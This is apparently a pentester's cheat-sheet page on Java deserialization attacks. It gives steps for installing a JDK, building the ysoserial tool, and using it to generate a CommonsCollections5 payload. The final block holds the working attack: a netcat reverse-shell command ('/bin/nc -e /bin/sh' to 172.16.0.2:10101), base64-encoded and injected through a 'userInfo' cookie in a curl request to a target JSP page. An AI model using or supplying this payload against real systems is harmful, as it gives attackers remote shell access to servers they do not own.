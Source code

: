 ## Deserialization

Let the application deserialize your own injected objects that have a method that is called by the application or that calls a method in constructor/deconstructor.

### Build ysoserial
#### Install JDK
```
Download http://www.oracle.com/technetwork/java/javase/downloads/index.html
unzip
mv jdk1.8.0_102/ /opt/
export JAVA_HOME="/opt/jdk1.8.0_102"
export JAVA_BIN="/opt/jdk1.8.0_102/bin"

update-alternatives --install /usr/bin/java java /opt/jdk1.8.0_102/bin/java 1
update-alternatives --set java /opt/jdk1.8.0_102/bin/java
```

#### Builing jars from src /pom.xml
```
apt-get install maven
mvn install -DskipTests=true -Dmaven.javadoc.skip=true -B -V
```

#### Build ysoserial - Java deserialisation
```
git clone https://github.com/frohoff/ysoserial
mvn install -DskipTests=true -Dmaven.javadoc.skip=true -B -V
```

#### Use ysoserial 0.0.5
```
java -jar ysoserial-0.0.5-SNAPSHOT-all.jar CommonsCollections5 '/bin/nc -e /bin/sh 172.16.0.2 10101' | base64 | tr -d '\n'

proxychains curl -b 'userInfo = "'$(java -jar ../../web/ysoserial-0.0.5-SNAPSHOT-all.jar CommonsCollections5 '/bin/nc -e /bin/sh 172.16.0.2 10101' | base64 | tr -d '\n')'"'  http://192.168.1.2:8080/index.jsp
```

tags: #object_injection #deserialization #ysoserial 
